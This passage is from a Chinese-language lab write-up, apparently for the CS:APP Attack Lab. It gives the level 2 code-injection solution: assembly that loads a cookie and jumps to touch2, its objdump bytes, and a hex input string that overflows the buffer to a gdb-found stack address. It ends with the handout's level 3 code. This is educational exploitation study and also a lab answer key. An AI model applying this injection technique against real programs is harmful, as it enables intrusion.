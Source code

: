 新建一个文件`phase2.s`：

```s
# to solve the level 2 of Code Injection Attacks
mov $0x59b997fa, %rdi # set cookie in %rdi
push $0x4017ec
ret
```

这部分的代码首先把自己cookie的值赋给了`%rdi`，然后把`touch2`的地址放入栈中，ret指令执行后刚好跳转到`touch2`，从而达到目的。

接下来执行`gcc -c phase2.s`得到`.o`的文件，然后执行`objdump -d phase2.o`得到十六进制的代码。

```
phase2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq 
```

我们可以把这部分直接填充到缓冲区开始的地方，然后利用gdb得到缓冲区开始的地址`0x5561dc78`，把这个地址填到从41位置开始之后的地方即可。

于是本关的答案如下：

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
78 dc 61 55
```

### Level 3

首先仍然是讲义中给出的代码：

```
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4      char cbuf[110];
5      /* Make position of check string unpredictable */
6      char *s = cbuf + random() % 100;
7      sprintf(s, "%.8x", val);
8      return strncmp(sval, s, 9) == 0;
9 }
7
10
11 void touch3(char *sval)
12 {
13     vlevel = 3; /* Part of validation protocol */
14     if (hexmatch(cookie, sval)) {
15         printf("Touch3!: You called touch3(\"%s\")\n", sval);
16         validate(3);
17     } else {
18         printf("Misfire: You called touch3(\"%s\")\n", sval);
19         fail(3);
20     }
21     exit(0);
22 }
```
